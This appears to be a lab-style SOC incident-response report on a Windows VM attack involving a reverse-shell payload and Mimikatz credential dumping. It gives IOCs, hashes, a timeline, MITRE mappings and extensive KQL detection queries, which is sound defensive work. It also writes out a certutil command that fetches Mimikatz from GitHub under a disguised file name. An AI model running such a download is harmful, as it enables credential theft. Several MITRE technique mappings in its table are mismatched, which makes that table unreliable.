









# SOC Incident Response Report: Malicious Payload

## **Executive Summary**

This report details the investigation of suspicious activity on a Windows VM, identified through Sysmon logs and associated Indicators of Compromise (IOCs). The attacker executed a malicious payload (svchost-sanclogic.exe) to establish a reverse shell connection and used Mimikatz for credential dumping. The analysis covered process creation events, network connections, registry modifications, and DNS queries to track the attack chain and confirm malicious behaviour.

## CVSS Risk Scoring

- Base Score: 8.6 (High)
- Vector: AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:L
- Impact: High due to potential credential theft and unauthorized remote access

## **Incident Overview**

5Ws Analysis

- Who: The attacker used a reverse shell and Mimikatz for credential dumping. •What: Execution of svchost-sanclogic.exe, reverse shell to 10.0.0.6:4444, and credential dumping with Mimikatz.
- When: The attack occurred between 2025-02-24 10:42:19 UTC and 2025-02-24 12:32:48 UTC.
- Where: The attack targeted the Windows VM within the internal network (IP: 10.0.0.6).
- Why: Likely motivated by unauthorized access and credential theft.

**Key Findings**

1. File Download and Execution:

- Payload: svchost-sanclogic.exe located in C:\Users\labuser\Downloads. •Payload: notmimikatz.exe located in C:\Users\labuser\Downloads.

- File Hashes Mimikatz:
    - SHA1: D3114A286A1061A68C826AE747B03149709423A5
    - MD5: 92C4AF9B7F7235E6580279AFCF56229D
    - SHA256: 605D530E957A31FDB6BAAC7AF7EA2602C177FE54EA3115716AFA027387EE3F4E
    - SHA256: 2E8092205A2DED4B07E9D10D0EC02EBA0FFCF1D370CAB88C5221A749915F678A

- File Hashes svchost-sanclogic
    - SHA1=094B6DB480B7E6191B7831FD798E7E4676651CF3
    - MD5=FEE941AC83C936952758D05ABC31D7F3
    - SHA256=D55079C45FA6F40E4BA6AE05B55D72A1272E61B9FE0D24EF033C1712B719D7CB
    - SHA256=605D530E957A31FDB6BAAC7AF7EA2602C177FE54EA3115716AFA027387EE3F4E
- Reputation Checks: Using Virus total we found no hits on the hashes.
- This was because of the file name changes is the likely cause. If that is the case, we can directly RDP into the VM and check Hash values directly in the system and correlate. As we can see we got a hit on the executable inside the VM.



2. Network Connections:

- Reverse shell connected to 10.0.0.6:4444 (TCP).
- External connection established to GitHub (172.64.149.23).

3. Registry Modifications:

- Path: HKLM\System\CurrentControlSet\Services\bam\State\UserSettings
- Value: cmd.exe - indicates persistence setup.

4. Payload Download Using CertUtil:

•Mimikatz downloaded via certutil from:

[h.t.t.p.s]://github.com/ParrotSec/mimikatz/raw/refs/heads/master/Win32/mimika tz.exe

•Command:

KQL

```powershell
certutil -urlcache -split -f "URL" C:\Users\labuser\Downloads\notmimikatz.exe
```

5. DNS Queries:

- Domain: github.com (used for payload download).

6. Process Creation:

- csc.exe (Microsoft .NET compiler) executed svchost-sanclogic.exe, indicating possible process injection or obfuscation.

IOC Correlation & Detected Artifacts

- Download of the Payload



- Whoami command d Discovery



- We can see all the commands that have been executed, also PowerShell executions of tasks being created, and we can go up and look at what other activities they have been doing. Creating a backdoor account as well.





- We can see here that the Threat Actor downloaded Mimikatz via Github



- We can also see that a scheduled task was created for persistence



## Timeline of Events

| Timestamp (UTC) | Event |
| --- | --- |
| 2025-02-24T10:42:19.303 | svchost-sanclogic.exe downloaded and executed. |
| 2025-02-24T10:42:20.485 | Reverse shell connection to 10.0.0.6:4444 established. |
| 2025-02-24T10:56:45.747 | Registry modification detected for persistence. |
| 2025-02-24T10:56:45.747 | Certutil used to download Mimikatz. |
| 2025-02-24T12:32:48.155 | DNS query to github.com logged. |
| 2025-02-24T12:32:48.155 | Mimikatz executed to dump credentials. |

## MITRE ATT&CK Mapping

| Attack Type | Execution Method | Expected Detection Outcome |
| --- | --- | --- |
| Initial Access | T1189 - Drive-by Compromise | Payload downloaded using PowerShell. |
| Execution | T1204.002 - User Execution: Malicious File | Execution of svchost-sanclogic.exe. |
| Persistence | T1003.001 - OS Credential Dumping: LSASS Memory | Registry modification for persistence. |
| Privilege Escalation | T1003.001 - OS Credential Dumping: LSASS Memory | Mimikatz used to extract credentials. |
| Defence Evasion | T1140 - Deobfuscate/Decode Files or Information | Payload execution through csc.exe. |
| Credential Access | T1071.001 - Application Layer Protocol: Web Protocols | Reverse shell via TCP connection to attacker. |
| Command and Control | T1071.001 - Application Layer Protocol: Web Protocols | Reverse shell via TCP connection to attacker. |

## Cyber Kill Chain Mapping

| Timestamp (UTC) | Event |
| --- | --- |
| Reconnaissance | DNS query to github.com during Mimikatz download. |
| Weaponization | Creation of payload (svchost-sanclogic.exe). |
| Delivery | Payload delivered via PowerShell. |
| Exploitation | Execution of payload to establish reverse shell. |
| Installation | Registry modification for persistence. |
| Command and Control (C2) | Reverse shell connection to 10.0.0.6:4444. |
| Actions on Objectives | Mimikatz used to dump credentials. |

Detection Rules

1. KQL Detection Query (Sysmon) Used

```sql
//Sysmon Query: kind=inner for All Subqueries 
// Subquery A: EventID=1 (Process Creation) 

let processes =  
Event 
| where Source == "Microsoft-Windows-Sysmon" 
| where EventID == 1 
| extend TimeProc = TimeGenerated 
| extend ComputerProc = Computer 
| extend ParsedData = parse_xml(EventData) 
| mv-expand ParsedField = ParsedData.DataItem.EventData.Data 
| extend  
    FieldName = tostring(ParsedField["@Name"]), 
    FieldValue = tostring(ParsedField["#text"]) 
| summarize ParsedFields = make_bag(pack(FieldName, FieldValue)) by TimeProc, ComputerProc 
| extend  
    ProcessGUID = tostring(ParsedFields["ProcessGuid"]), 
    Image       = tostring(ParsedFields["Image"]), 
    CommandLine = tostring(ParsedFields["CommandLine"]), 
    User        = tostring(ParsedFields["User"]), 
    Hashes      = tostring(ParsedFields["Hashes"]) 
| where isnotempty(ProcessGUID); 

// Subquery B: EventID=3 (Network Connections) 

let net =  
Event 
| where Source == "Microsoft-Windows-Sysmon" 
| where EventID == 3 
| extend TimeNet = TimeGenerated 
| extend ComputerNet = Computer 
| extend ParsedData = parse_xml(EventData) 
| mv-expand ParsedField = ParsedData.DataItem.EventData.Data 
| extend  
    FieldName = tostring(ParsedField["@Name"]), 
    FieldValue = tostring(ParsedField["#text"]) 
| summarize ParsedFields = make_bag(pack(FieldName, FieldValue)) by TimeNet, ComputerNet 
| extend  
    ProcessGUID   = tostring(ParsedFields["ProcessGuid"]), 
    DestinationIP = tostring(ParsedFields["DestinationIp"]), 
    DestinationPort = tostring(ParsedFields["DestinationPort"]), 
    Protocol      = tostring(ParsedFields["Protocol"]) 
| where isnotempty(ProcessGUID); 

// Subquery C: EventID=13 (Registry Modification) 

let reg =  
Event 
| where Source == "Microsoft-Windows-Sysmon" 
| where EventID == 13 
| extend TimeReg = TimeGenerated 
| extend ComputerReg = Computer 
| extend ParsedData = parse_xml(EventData) 
| mv-expand ParsedField = ParsedData.DataItem.EventData.Data 
| extend  
    FieldName = tostring(ParsedField["@Name"]), 
    FieldValue = tostring(ParsedField["#text"]) 
| summarize ParsedFields = make_bag(pack(FieldName, FieldValue)) by TimeReg, ComputerReg 
| extend  
    ProcessGUID    = tostring(ParsedFields["ProcessGuid"]), 
    RegistryPath   = tostring(ParsedFields["TargetObject"]), 
    RegistryDetails = tostring(ParsedFields["Details"]) 
| where isnotempty(ProcessGUID); 

// Subquery D: EventID=22 (DNS Queries) 

let dns =  
Event 
| where Source == "Microsoft-Windows-Sysmon" 
| where EventID == 22 
| extend TimeDns = TimeGenerated 
| extend ComputerDns = Computer 
| extend ParsedData = parse_xml(EventData) 
| mv-expand ParsedField = ParsedData.DataItem.EventData.Data 
| extend  
    FieldName = tostring(ParsedField["@Name"]), 
    FieldValue = tostring(ParsedField["#text"]) 
| summarize ParsedFields = make_bag(pack(FieldName, FieldValue)) by TimeDns, ComputerDns 
| extend  
    ProcessGUID = tostring(ParsedFields["ProcessGuid"]), 
    QueryName   = tostring(ParsedFields["QueryName"]) 
| where isnotempty(ProcessGUID); 

// STEP: Inner-Joins so we only keep rows that exist in all subqueries 

processes 
| join kind=inner (net) on ProcessGUID 
| join kind=inner (reg) on ProcessGUID 
| join kind=inner (dns) on ProcessGUID 
| project  
    TimeProc, ComputerProc, ProcessGUID, Image, CommandLine, User, Hashes, 
    TimeNet, ComputerNet, DestinationIP, DestinationPort, Protocol, 
    TimeReg, ComputerReg, RegistryPath, RegistryDetails, 
    TimeDns, ComputerDns, QueryName 
| order by TimeProc desc 

// View all data within EventID 1,3,13,22 

// Subquery A: Event ID=1 (Process Creation) 

let processes = ( 
    Event 
    | where Source == "Microsoft-Windows-Sysmon" 
    | where EventID == 1 
    | extend TimeProc = TimeGenerated 
    | extend ComputerProc = Computer 
    | extend ParsedData = parse_xml(EventData) 
    | mv-expand ParsedField = ParsedData.DataItem.EventData.Data 
    | extend  
        FieldName = tostring(ParsedField["@Name"]), 
        FieldValue = tostring(ParsedField["#text"]) 
    | summarize ParsedFields = make_bag(pack(FieldName, FieldValue)) by TimeProc, ComputerProc 
    | extend  
        ProcessGUID       = tostring(ParsedFields["ProcessGuid"]), 
        Image             = tostring(ParsedFields["Image"]), 
        CommandLine       = tostring(ParsedFields["CommandLine"]), 
        User              = tostring(ParsedFields["User"]), 
        Hashes            = tostring(ParsedFields["Hashes"]), 
        ParentProcessGUID = tostring(ParsedFields["ParentProcessGuid"]) 
    | where isnotempty(ProcessGUID) 
); 

// Subquery B: Event ID=3 (Network Connections) 

let net = ( 
    Event 
    | where Source == "Microsoft-Windows-Sysmon" 
    | where EventID == 3 
    | extend TimeNet = TimeGenerated 
    | extend ComputerNet = Computer 
    | extend ParsedData = parse_xml(EventData) 
    | mv-expand ParsedField = ParsedData.DataItem.EventData.Data 
    | extend 
        FieldName = tostring(ParsedField["@Name"]), 
        FieldValue = tostring(ParsedField["#text"]) 
    | summarize ParsedFields = make_bag(pack(FieldName, FieldValue)) by TimeNet, ComputerNet 
    | extend  
        ProcessGUID     = tostring(ParsedFields["ProcessGuid"]), 
        DestinationIP   = tostring(ParsedFields["DestinationIp"]), 
        DestinationPort = tostring(ParsedFields["DestinationPort"]), 
        Protocol        = tostring(ParsedFields["Protocol"]) 
    | where isnotempty(ProcessGUID) 
); 

// Subquery C: Event ID=13 (Registry Modification) 

let reg = ( 
    Event 
    | where Source == "Microsoft-Windows-Sysmon" 
    | where EventID == 13 
    | extend TimeReg = TimeGenerated 
    | extend ComputerReg = Computer 
    | extend ParsedData = parse_xml(EventData) 
    | mv-expand ParsedField = ParsedData.DataItem.EventData.Data 
    | extend 
        FieldName = tostring(ParsedField["@Name"]), 
        FieldValue = tostring(ParsedField["#text"]) 
    | summarize ParsedFields = make_bag(pack(FieldName, FieldValue)) by TimeReg, ComputerReg 
    | extend  
        ProcessGUID    = tostring(ParsedFields["ProcessGuid"]), 
        RegistryPath   = tostring(ParsedFields["TargetObject"]), 
        RegistryValue  = tostring(ParsedFields["Details"]) 
    | where isnotempty(ProcessGUID) 
); 

// Subquery D: Event ID=22 (DNS Query) 

let dns = ( 
    Event 
    | where Source == "Microsoft-Windows-Sysmon" 
    | where EventID == 22 
    | extend TimeDns = TimeGenerated 
    | extend ComputerDns = Computer 
    | extend ParsedData = parse_xml(EventData) 
    | mv-expand ParsedField = ParsedData.DataItem.EventData.Data 
    | extend 
        FieldName = tostring(ParsedField["@Name"]), 
        FieldValue = tostring(ParsedField["#text"]) 
    | summarize ParsedFields = make_bag(pack(FieldName, FieldValue)) by TimeDns, ComputerDns 
    | extend  
        ProcessGUID = tostring(ParsedFields["ProcessGuid"]), 
        QueryName   = tostring(ParsedFields["QueryName"]) 
    | where isnotempty(ProcessGUID) 
); 

// STEP: Multi-Join 

processes 
| join kind=leftouter (net) on ProcessGUID 
| join kind=leftouter (reg) on ProcessGUID 
| join kind=leftouter (dns) on ProcessGUID 
| project  
    TimeGeneratedProc, TimeGeneratedNet, TimeGeneratedReg, TimeGeneratedDns, 
    ComputerProc, ComputerNet, ComputerReg, ComputerDns, 
    ProcessGUID, Image, CommandLine, User, Hashes, 
    ParentProcessGUID, DestinationIP, DestinationPort, Protocol, 
    RegistryPath, RegistryValue, QueryName 
| order by TimeGeneratedProc desc
```

```sql
Event 
| where Source == "Microsoft-Windows-Sysmon" 
| where EventID == 1 
| where TimeGenerated >= ago(24h)    
| extend ParsedData = parse_xml(EventData) 
| mv-expand ParsedField = ParsedData.DataItem.EventData.Data 
| extend  
    FieldName = tostring(ParsedField["@Name"]), 
    FieldValue = tostring(ParsedField["#text"]) 
| summarize ParsedFields = make_bag(pack(FieldName, FieldValue)) by TimeGenerated, Computer 
| extend 
    Image = tostring(ParsedFields["Image"]), 
    CommandLine = tostring(ParsedFields["CommandLine"]), 
    User = tostring(ParsedFields["User"]), 
    ProcessGUID = tostring(ParsedFields["ProcessGuid"]), 
    ParentProcessGUID = tostring(ParsedFields["ParentProcessGuid"]) 
| where Image has "svchost-sanclogic.exe"   // Focus on specific process 
| where not(Image has "C:\\Windows\\" or Image has "C:\\Program Files")  // Exclude safe Windows processes 
| project TimeGenerated, Computer, Image, CommandLine, User, ProcessGUID, ParentProcessGUID 
| order by TimeGenerated desc 
```

We can also go further and filter logs for GitHub and Svchost-sanclogic.exe 

```sql
// Subquery A: Process Creation (EventID 1) 
let processes = ( 
    Event  
    | where Source == "Microsoft-Windows-Sysmon"  
    | where EventID == 1  
    | extend TimeProc = TimeGenerated  
    | extend ComputerProc = Computer  
    | extend ParsedData = parse_xml(EventData)  
    | mv-expand ParsedField = ParsedData.DataItem.EventData.Data  
    | extend   
        FieldName = tostring(ParsedField["@Name"]),  
        FieldValue = tostring(ParsedField["#text"])  
    | summarize ParsedFields = make_bag(pack(FieldName, FieldValue)) by TimeProc, ComputerProc  
    | extend   
        ProcessGUID       = tostring(ParsedFields["ProcessGuid"]),  
        Image             = tostring(ParsedFields["Image"]),  
        CommandLine       = tostring(ParsedFields["CommandLine"]),  
        User              = tostring(ParsedFields["User"]),  
        Hashes            = tostring(ParsedFields["Hashes"]),  
        ParentProcessGUID = tostring(ParsedFields["ParentProcessGuid"])  
    | where isnotempty(ProcessGUID) 
); 

// Subquery B: Network Connections (EventID 3) 
let net = ( 
    Event  
    | where Source == "Microsoft-Windows-Sysmon"  
    | where EventID == 3  
    | extend TimeNet = TimeGenerated  
    | extend ComputerNet = Computer  
    | extend ParsedData = parse_xml(EventData)  
    | mv-expand ParsedField = ParsedData.DataItem.EventData.Data  
    | extend   
        FieldName = tostring(ParsedField["@Name"]),  
        FieldValue = tostring(ParsedField["#text"])  
    | summarize ParsedFields = make_bag(pack(FieldName, FieldValue)) by TimeNet, ComputerNet  
    | extend   
        ProcessGUID     = tostring(ParsedFields["ProcessGuid"]),  
        DestinationIP   = tostring(ParsedFields["DestinationIp"]),  
        DestinationPort = tostring(ParsedFields["DestinationPort"]),  
        Protocol        = tostring(ParsedFields["Protocol"])  
    | where isnotempty(ProcessGUID) 
); 

// Subquery C: Registry Modification (EventID 13) 
let reg = ( 
    Event  
    | where Source == "Microsoft-Windows-Sysmon"  
    | where EventID == 13  
    | extend TimeReg = TimeGenerated  
    | extend ComputerReg = Computer  
    | extend ParsedData = parse_xml(EventData)  
    | mv-expand ParsedField = ParsedData.DataItem.EventData.Data  
    | extend   
        FieldName = tostring(ParsedField["@Name"]),  
        FieldValue = tostring(ParsedField["#text"])  
    | summarize ParsedFields = make_bag(pack(FieldName, FieldValue)) by TimeReg, ComputerReg  
    | extend   
        ProcessGUID    = tostring(ParsedFields["ProcessGuid"]),  
        RegistryPath   = tostring(ParsedFields["TargetObject"]),  
        RegistryValue  = tostring(ParsedFields["Details"])  
    | where isnotempty(ProcessGUID) 
); 

// Subquery D: DNS Queries (EventID 22) 
let dns = ( 
    Event  
    | where Source == "Microsoft-Windows-Sysmon"  
    | where EventID == 22  
    | extend TimeDns = TimeGenerated  
    | extend ComputerDns = Computer  
    | extend ParsedData = parse_xml(EventData)  
    | mv-expand ParsedField = ParsedData.DataItem.EventData.Data  
    | extend   
        FieldName = tostring(ParsedField["@Name"]),  
        FieldValue = tostring(ParsedField["#text"])  
    | summarize ParsedFields = make_bag(pack(FieldName, FieldValue)) by TimeDns, ComputerDns  
    | extend   
        ProcessGUID = tostring(ParsedFields["ProcessGuid"]),  
        QueryName   = tostring(ParsedFields["QueryName"])  
    | where isnotempty(ProcessGUID) 
); 

// STEP: Multi-Join (Leftouter to avoid conflicts)
processes  
| join kind=leftouter (net) on ProcessGUID  
| join kind=leftouter (reg) on ProcessGUID  
| join kind=leftouter (dns) on ProcessGUID  
| where Image has_any ("svchost-sanclogic.exe") or QueryName has_any ("github.com") // IOC filter applied after join  
| project 
    TimeGeneratedProc = TimeProc,  
    TimeGeneratedNet = TimeNet,  
    TimeGeneratedReg = TimeReg,  
    TimeGeneratedDns = TimeDns,  
    ComputerProc, ProcessGUID, Image, CommandLine, User, Hashes, ParentProcessGUID, DestinationIP, DestinationPort, Protocol, RegistryPath, RegistryValue, QueryName  
| order by TimeGeneratedProc desc 

// Combined KQL Query: Defender + Sysmon (with Hash Support)
// Matches Defender malware detections with Sysmon system events and includes hash filtering 
// Defender Logs: Malware Detection  

let defender_events = ( 
    Event  
    | where EventLog == "Microsoft-Windows-Windows Defender/Operational" 
    | where EventID in (1116, 1117, 1118, 1119, 1120)  
    | extend ParsedData = parse_xml(EventData)  
    | mv-expand ParsedField = ParsedData.DataItem.EventData.Data  
    | extend FieldName = tostring(ParsedField["@Name"]), FieldValue = tostring(ParsedField["#text"])  
    | summarize ParsedFields = make_bag(pack(FieldName, FieldValue)) by TimeGenerated, Computer, EventID  
    | extend ThreatName = tostring(ParsedFields["ThreatName"]), FilePath = tostring(ParsedFields["Path"]), User = tostring(ParsedFields["User"])  
    | where isnotempty(FilePath) 
    | project TimeGenerated, Computer, EventID, ThreatName, FilePath, User 
); 

// Sysmon Logs: Process Creation, Network, Registry, DNS, and Hash Support 
let sysmon_events = (  
    Event  
    | where Source == "Microsoft-Windows-Sysmon"  
    | where EventID in (1, 3, 11, 13, 22)  
    | extend ParsedData = parse_xml(EventData)  
    | mv-expand ParsedField = ParsedData.DataItem.EventData.Data  
    | extend FieldName = tostring(ParsedField["@Name"]), FieldValue = tostring(ParsedField["#text"])  
    | summarize ParsedFields = make_bag(pack(FieldName, FieldValue)) by TimeGenerated, Computer, EventID  
    | extend  
        ProcessGUID = tostring(ParsedFields["ProcessGuid"]), 
        Image = tostring(ParsedFields["Image"]), 
        CommandLine = tostring(ParsedFields["CommandLine"]), 
        DestinationIP = tostring(ParsedFields["DestinationIp"]), 
        RegistryPath = tostring(ParsedFields["TargetObject"]), 
        QueryName = tostring(ParsedFields["QueryName"]), 
        Hashes = tostring(ParsedFields["Hashes"])  
    | where isnotempty(ProcessGUID)  
    | project TimeGenerated, Computer, EventID, Image, CommandLine, DestinationIP, RegistryPath, QueryName, Hashes 
); 

// Join Defender and Sysmon Logs with Hash Filtering  
defender_events  
| join kind=inner (sysmon_events) on Computer  
| where FilePath has Image or FilePath has QueryName or Hashes has FilePath  
| project TimeGenerated, Computer, ThreatName, FilePath, User, Image, CommandLine, DestinationIP, RegistryPath, QueryName, Hashes, EventID 
| order by TimeGenerated desc 

// Defender Query to find Malware 
Event 
| where EventLog == "Microsoft-Windows-Windows Defender/Operational" 
| where EventID in (1116, 1117, 1118, 1119, 1120) 
| extend ParsedData = parse_xml(EventData) 
| mv-expand ParsedField = ParsedData.DataItem.EventData.Data 
| extend FieldName = tostring(ParsedField["@Name"]), FieldValue = tostring(ParsedField["#text"]) 
| summarize ParsedFields = make_bag(pack(FieldName, FieldValue)) by TimeGenerated, Computer, EventID 
| extend ThreatName = tostring(ParsedFields["ThreatName"]), FilePath = tostring(ParsedFields["Path"]), User = tostring(ParsedFields["User"]) 
| project TimeGenerated, Computer, EventID, ThreatName, FilePath, User 
| order by TimeGenerated desc 
```

---





## Defend Techniques (MITRE D3FEND)

| Technique | Description |
| --- | --- |
| D3-PS - Process Analysis | Monitor process creation events using Sysmon. |
| D3-RM - Registry Monitoring | Detect unauthorized registry modifications. |
| D3-NM - Network Monitoring | Identify unusual TCP connections (port 4444). |
| D3-FIM - File Integrity Monitoring | Monitor integrity of critical system files. |
| D3-PA - PowerShell Auditing | Track PowerShell command execution. |

## Recommendations for Future Mitigation

File Integrity Monitoring: Monitor for unauthorized file downloads and executions.

- Registry Monitoring: Detect suspicious registry modifications indicating persistence.
- Network Traffic Analysis: Alert on outbound traffic to suspicious IPs (e.g., 10.0.0.6 and GitHub).
- Endpoint Security: Deploy tools to block reverse shells and credential dumping. •PowerShell Logging: Enable detailed PowerShell logs for better visibility.
- Incident Playbooks: Develop response playbooks for reverse shells, Mimikatz, and credential theft.

## Conclusion

This investigation confirmed the execution of a malicious payload (svchost-sanclogic.exe) that  established a reverse shell to 10.0.0.6:4444 and used Mimikatz to dump credentials. Indicators of compromise (IOCs) were identified through process creation, network connections, registry modifications, and DNS queries. Mitigation steps, including process termination and credential revocation, were implemented. New detection rules were created to prevent future incidents of this nature.